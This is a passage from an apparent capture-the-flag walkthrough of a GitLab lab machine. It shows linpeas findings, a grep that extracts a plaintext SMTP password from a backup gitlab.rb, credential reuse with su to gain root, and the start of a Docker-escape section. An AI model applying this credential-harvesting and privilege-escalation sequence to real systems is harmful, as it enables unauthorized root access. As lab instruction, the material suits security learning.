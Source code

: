 At the same time, we also discover a few interesting files in the /opt/backup directory from the linpeas script. We shall examine these files in detail.

```
╔══════════╣ Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)                                                                                                       
-rw-r--r-- 1 root root 79639 Dec  1  2020 /opt/backup/gitlab.rb                                                       
-rw-r--r-- 1 root root 872 Dec  7  2020 /opt/backup/docker-compose.yml                                                
-rw-r--r-- 1 root root 15092 Dec  1  2020 /opt/backup/gitlab-secrets.json
```
Looking at /opt/backup/docker-compose.yml, we realize that the container is running with privileged access. However, we would need to be root to be able to access the container.

```
    volumes:
      - './srv/gitlab/config:/etc/gitlab'
      - './srv/gitlab/logs:/var/log/gitlab'
      - './srv/gitlab/data:/var/opt/gitlab'
      - './root_pass:/root_pass'
    privileged: true
```
Looking at /opt/backup/gitlab.rb, we realize most of the lines are commented out. Hence, we will have to remove the commented lines to find the lines that are not blank or commented out. From the output, we are able to obtain a password.

```
cat gitlab.rb | grep -v "^#" | grep .                                                                                 
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

Next, we will try to use the password to ssh into port 22. Unfortunately, we are unable to connect to the ssh server using the given password. Afterwards, we will try to escalate our privileges to root using ```su``` command. Fortunately, this time round we are able to obtain privilege escalation to root using the password.

```
git@gitlab:~/gitlab-rails/working$ su 
su 
Password: wW59U!ZKMbG9+*#h

root@gitlab:/var/opt/gitlab/gitlab-rails/working# 
```

### Mounting filesystems on Docker

However, we realize that we are unable to find the root flag even though we are now the root user. This furthur determines my previous suspicious that we are in a docker container and we would need to escape from the docker container to be able to obtain the root flag.

```
root@gitlab:~# ls -la
ls -la
total 28
drwx------ 1 root root 4096 Mar 16 17:06 .
drwxr-xr-x 1 root root 4096 Dec  1  2020 ..
lrwxrwxrwx 1 root root    9 Dec  7  2020 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
drwx------ 2 root root 4096 Mar 16 17:06 .gnupg
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwx------ 2 root root 4096 Dec  7  2020 .ssh
-rw------- 1 root root 1565 Dec 13  2020 .viminfo
```

